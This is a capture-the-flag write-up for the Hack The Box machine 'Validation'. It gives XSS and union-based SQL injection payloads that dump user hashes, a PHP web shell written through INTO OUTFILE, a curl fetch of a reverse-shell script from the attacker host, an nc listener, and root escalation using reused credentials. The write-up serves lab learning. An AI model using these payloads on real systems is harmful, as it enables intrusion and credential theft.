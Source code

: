 # Validation HacktheBox

**ENUMERATION**

**NMAP**

![image](https://user-images.githubusercontent.com/79543461/177142512-ca4b0e81-c4bd-4cae-a65e-6dc6976a7242.png)

**Port 80**

![image](https://user-images.githubusercontent.com/79543461/177142701-0be496f1-60ba-4fed-871d-836ca8352fb7.png)

**Port 4566**

![image](https://user-images.githubusercontent.com/79543461/177142777-127ce58a-10c2-4d35-99cd-904be4e79abd.png)

**Port 8080**

![image](https://user-images.githubusercontent.com/79543461/177142844-5600bb65-4f47-4ae9-8d4c-e20eaca2a966.png)

I enumerate Port 80:

![image](https://user-images.githubusercontent.com/79543461/177143065-83faf0c0-e186-40e3-aac5-4011e709f972.png)

**First Attack Vectors**

The index page of this web it's a form to qualify for something called September UHC, let's try to inject code SQL,XSS,HTML and more.

**XSS**

Payload: <script>alert("SS")</script>

![image](https://user-images.githubusercontent.com/79543461/177160817-3203a467-57bd-4bb6-ab4a-50d45508fc1c.png)

**It's Vulnerable to XSS and HTML Injection, but i can't do anything**

**SQLI**

**BurpSuite**

Payload: ' order by 10000-- - == **NO WORK**

Payload: ' union select 1-- - == **NO WORK**

**Country Field**

Let's try to do this payloads with other field from request.

Payload: ' union select 1-- - == **WORKS!!!!!**

![image](https://user-images.githubusercontent.com/79543461/177161840-7352bb95-c77b-451d-9b9f-8d3d785baed2.png)

![image](https://user-images.githubusercontent.com/79543461/177162100-a0e026a4-6b8d-4f35-b056-161b90c9238e.png)

Let's go to enumerate Things.

**Database**

Payload: ' union select database()-- -

![image](https://user-images.githubusercontent.com/79543461/177163576-b903824d-3109-4143-b421-39d210096c0e.png)

**Version**

Payload: ' union select @@version-- -

![image](https://user-images.githubusercontent.com/79543461/177164063-41a93070-b0fc-4cfc-8592-f87ac3f97f96.png)

**All DataBases**

Payload: ' union select schema_name from information_schema.schemata

![image](https://user-images.githubusercontent.com/79543461/177171212-3efc9aa0-4291-4807-abf9-66885bfe0a08.png)

**Tables Registration Database**

Payload: ' union select table_name from information_schema.tables where table_schema="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177171583-48dca75b-e3f3-4a55-a860-3d5297fb0f45.png)

Table name is the same than DataBase Name

**Columns**

Payload: ' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177172114-948b0c56-5358-47d9-8328-fec1366e3086.png)

**Users and Passwords**

Payload: ' union select group_concat(username,0x3a,userhash) from registration-- -

![image](https://user-images.githubusercontent.com/79543461/177172762-289b5e1f-248c-4e39-994f-d6fd8a30c4ff.png)

This users are my users...

**RCE**

Payload: ' union select "**<?php system($_REQUEST['cmd']);?>**" into outfile "/var/www/html/rce.php"-- -

**Works!!**

![image](https://user-images.githubusercontent.com/79543461/177177136-7d1b27fa-3f5e-420b-9fb2-e048e02d502a.png)

**Reverse Shell**

I create in my Kali Machine a php script to gain reverse shell.

I open http server wirth python3: python3 -m http.server

In victim RCE: curl -o shell.php 10.10.14.33:8000/shell.php

Now i put rlwrap nc -lnvp 1212

I access to:  http://10.10.11.116/shell.php

**I HAVE SHELL!!**

![image](https://user-images.githubusercontent.com/79543461/177179263-e41c28fb-324e-4e7d-926b-8e39c4548d11.png)

**user.txt**

![image](https://user-images.githubusercontent.com/79543461/177180144-1d77396f-ef0f-468b-95cb-6a7bc2c9e3a7.png)

**Docker Container**

![image](https://user-images.githubusercontent.com/79543461/177180507-f5f4daf5-7dd3-46d8-b3ca-80eb00577e6e.png)

Im in docker container but i found a credentials in /var/www/html/config.php

![image](https://user-images.githubusercontent.com/79543461/177180745-2ee9c296-3318-4717-ae22-c97fb8fff416.png)

**SSH DON'T WORK**

![image](https://user-images.githubusercontent.com/79543461/177181115-1fc9620d-cb57-48a3-b954-ef3611b19b7d.png)

su root its working

![image](https://user-images.githubusercontent.com/79543461/177182304-06ef859a-1a1e-4191-87cc-2a6e79256819.png)

**DONE :)**

Thanks
